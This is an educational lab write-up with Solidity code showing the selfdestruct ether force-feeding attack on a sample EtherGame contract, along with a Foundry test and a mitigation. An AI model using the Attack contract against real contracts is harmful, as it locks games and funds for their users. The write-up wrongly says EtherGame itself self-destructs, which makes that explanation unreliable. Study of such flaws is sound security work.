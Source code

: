 # Selfdestruct  
[Selfdestruct.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Selfdestruct.sol)   
**Name:** Self-Destruct Vulnerability

**Description:**  
The EtherGame Self-Destruct Vulnerability is a flaw in the smart contract code that allows an attacker to disrupt the game by causing the EtherGame contract to self-destruct (using the selfdestruct opcode).
The vulnerability arises due to the dos function in the Attack contract, which performs a self-destruct operation on the EtherGame contract after receiving a significant amount of Ether. As a result of the self-destruct, the EtherGame contract's functionality is permanently disabled, making it impossible for anyone to deposit or claim the winner's reward.

**Scenario:**

1. Deploy EtherGame
2. Players (say Alice and Bob) decides to play, deposits 1 Ether each.
3. Deploy Attack with address of EtherGame
4. Call Attack.attack sending 5 ether. This will break the game No one can become the winner.

**What happened?**  
Attack forced the balance of EtherGame to equal 7 ether.
Now no one can deposit and the winner cannot be set.
Due to missing or insufficient access controls, malicious parties can self-destruct the contract.
The selfdestruct(address) function removes all bytecode from the contract address and sends all ether stored to the specified address.

**Mitigation:**  
Instead of relying on this.balance to track the deposited Ether,use a state variable to keep track of the total deposited amount.

**EtherGame Contract:**  
```
contract EtherGame {
    uint public constant targetAmount = 7 ether;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        uint balance = address(this).balance; // vulnerable
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}
``` 

****How to Test:****

forge test --contracts src/test/Selfdestruct.sol -vvvv  
```
// Test function for a scenario where selfdestruct is used.
function testSelfdestruct() public {
    // Log Alice's balance.
    console.log("Alice balance", alice.balance);
    // Log Eve's balance.
    console.log("Eve balance", eve.balance);

    // Log the start of Alice's deposit.
    console.log("Alice deposit 1 Ether...");
    // Set the message sender to Alice.
    vm.prank(alice);
    // Alice deposits 1 ether to the EtherGameContract.
    EtherGameContract.deposit{value: 1 ether}();

    // Log the start of Eve's deposit.
    console.log("Eve deposit 1 Ether...");
    // Set the message sender to Eve.
    vm.prank(eve);
    // Eve deposits 1 ether to the EtherGameContract.
    EtherGameContract.deposit{value: 1 ether}();

    // Log the balance of the EtherGameContract.
    console.log(
        "Balance of EtherGameContract",
        address(EtherGameContract).balance
    );

    // Log the start of the attack.
    console.log("Attack...");
    // Create a new instance of the Attack contract with EtherGameContract as a parameter.
    AttackerContract = new Attack(EtherGameContract);
    // Send 5 ether to the dos function of the AttackerContract.
    AttackerContract.dos{value: 5 ether}();

    // Log the new balance of the EtherGameContract after the attack.
    console.log(
        "Balance of EtherGameContract",
        address(EtherGameContract).balance
    );
    // Log the completion of the exploit.
    console.log("Exploit completed, Game is over");
    // Try to deposit 1 ether to the EtherGameContract. This call will fail as the contract has been destroyed.
    EtherGameContract.deposit{value: 1 ether}(); // This call will fail due to contract destroyed.
}

// Contract to attack the EtherGame contract.
contract Attack {
    // The EtherGame contract to be attacked.
    EtherGame etherGame;

    // Constructor to set the EtherGame contract.
    constructor(EtherGame _etherGame) {
        etherGame = _etherGame;
    }

    // The function to perform the attack.
    function dos() public payable {
        // Break the game by sending ether so that the game balance is >= 7 ether.

        // Cast the EtherGame contract address to a payable address.
        address payable addr = payable(address(etherGame));
        // Self-destruct the contract and send its balance to the EtherGame contract.
        selfdestruct(addr);
    }
}
```  
Red box: exploited successful, game is over.  
![Alt text](image-1.png)